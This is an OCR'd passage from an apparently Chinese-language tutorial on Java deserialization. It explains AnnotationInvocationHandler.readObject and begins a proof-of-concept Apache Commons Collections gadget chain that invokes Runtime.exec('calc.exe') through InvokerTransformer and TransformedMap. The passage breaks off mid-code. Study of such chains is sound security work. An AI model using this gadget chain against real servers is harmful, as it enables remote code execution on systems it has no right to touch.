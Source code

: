 ```java
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();//
        Iterator var4 = this.memberValues.entrySet().iterator();//获取我们构造map的迭代器

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();//遍历map迭代器
            String var6 = (String)var5.getKey();//获取key的名称
            Class var7 = (Class)var3.get(var6);//获取var2中相应key的class类？这边具体var3是什么个含义不太懂，但是肯定var7、8两者不一样
            if (var7 != null) {
                Object var8 = var5.getValue();//获取map的value
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    //两者类型不一致，给var5赋值！！具体赋值什么已经不关键了！只要赋值了就代表执行命令成功
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
}
```
readObject最终对于我们传入构造函数的map进行遍历赋值。
这样就弥补了我们之前反序列化需要服务端存在一些条件的不足，形成完美反序列化攻击
最终模拟攻击代码
```java
package com.myproject;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        //创建Map并绑定transformerChina
        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class,Map.class);
```